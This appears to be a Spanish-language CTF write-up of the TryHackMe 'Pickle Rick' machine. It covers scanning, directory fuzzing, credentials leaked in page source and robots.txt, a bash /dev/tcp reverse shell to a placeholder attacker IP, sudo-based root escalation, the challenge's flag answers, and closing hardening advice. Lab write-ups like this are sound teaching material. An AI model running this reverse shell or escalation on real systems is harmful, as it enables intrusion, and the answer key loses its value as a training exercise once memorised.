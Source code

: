# **Explotación de Máquina Pickle Rick

![Nivel: Fácil](https://img.shields.io/badge/Nivel-Fácil-green) ![Tema: Web Exploitation](https://img.shields.io/badge/Tema-Web%20Exploitation-blue)

## **Descripción**
Este repositorio documenta la explotación completa de la máquina **Pickle Rick** de TryHackMe, basada en la serie animada *Rick and Morty*. La máquina involucra:
1. Análisis de código fuente web
2. Fuzzing de directorios
3. Explotación de panel de comandos
4. Escalada de privilegios mediante mala configuración de sudo

**Tiempo estimado**: 20-30 minutos  
**Dificultad**: Fácil  
**Sistema operativo**: Linux (Ubuntu)

## **Índice**
1. [Reconocimiento](#reconocimiento)
2. [Explotación Web](#explotación-web)
3. [Shell Inversa](#shell-inversa)
4. [Escalada de Privilegios](#escalada-de-privilegios)
5. [Conclusión](#conclusión)

## **Reconocimiento**

### 1. Escaneo Inicial
```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -Pn 10.10.58.40 -oN escaneo
```

**Hallazgos clave**:
- **Puerto 22/tcp**: SSH (filtrado/cerrado)
- **Puerto 80/tcp**: HTTP - Apache httpd 2.4.18 (Ubuntu)

### 2. Análisis Web
- Acceso a `http://10.10.58.40`
- Inspección de código fuente (Ctrl+U):
  ```html
  <!-- Username: R1ckRul3s -->
  ```
- **Usuario descubierto**: `R1ckRul3s`

### 3. Fuzzing de Directorios
```bash
dirb http://10.10.58.40/ /usr/share/wordlists/dirb/common.txt
```

**Directorios encontrados**:
- `/login.php` - Panel de autenticación
- `/robots.txt` - Archivo de exclusión de robots

### 4. Archivo robots.txt
```bash
curl http://10.10.58.40/robots.txt
```
**Contenido**:
```
Wubbalubbadubdub
```
- **Posible contraseña**: `Wubbalubbadubdub`

## **Explotación Web**

### 5. Acceso al Panel de Login
- URL: `http://10.10.58.40/login.php`
- Credenciales:
  - Usuario: `R1ckRul3s`
  - Contraseña: `Wubbalubbadubdub`
- **Resultado**: Acceso concedido a panel de comandos web

### 6. Primera Flag (Ingrediente 1)
```bash
ls
cat Sup3rS3cretPickl3Ingred.txt
```
- **Ingrediente 1**: `mr. meeseek hair`

## **Shell Inversa**

### 7. Establecimiento de Reverse Shell
**En el panel web**:
```bash
bash -c 'bash -i >& /dev/tcp/TU_IP_ATACANTE/443 0>&1'
```

**En máquina atacante**:
```bash
nc -lvnp 443
```
- **Shell obtenida como usuario `www-data`**

## **Escalada de Privilegios**

### 8. Segunda Flag (Ingrediente 2)
```bash
cd /home/rick
ls -la
cat "second ingredients"
```
- **Ingrediente 2**: `1 jerry tear`

### 9. Escalada a Root
```bash
sudo -l
```
**Resultado**:
```
User www-data may run ALL commands as root without password.
```

```bash
sudo su -
whoami
# Output: root
```

### 10. Tercera Flag (Ingrediente 3)
```bash
ls /root
cat /root/3rd.txt
```
- **Ingrediente 3**: `fleeb juice`

## **Conclusión**

### Vulnerabilidades Críticas
1. **Exposición de credenciales en código fuente**
2. **Contraseña en archivo robots.txt** 
3. **Panel de comandos sin restricciones**
4. **Configuración insegura de sudo** (ALL NOPASSWD: ALL)

### Hardening Recomendado
- Eliminar comentarios sensibles del código fuente
- Restringir acceso a archivos de configuración
- Implementar validación de entrada en paneles de comandos
- Configurar sudo con mínimos privilegios necesarios

### Flags Obtenidas
1. **mr. meeseek hair** - Primer ingrediente
2. **1 jerry tear** - Segundo ingrediente  
3. **fleeb juice** - Tercer ingrediente


---

**Herramientas utilizadas**:
- Nmap
- Dirb
- Netcat
- Bash

**Referencias**:
- [TryHackMe - Pickle Rick Room](https://tryhackme.com/room/picklerick)
- [OWASP - Information Exposure](https://owasp.org/www-community/vulnerabilities/Information_exposure)
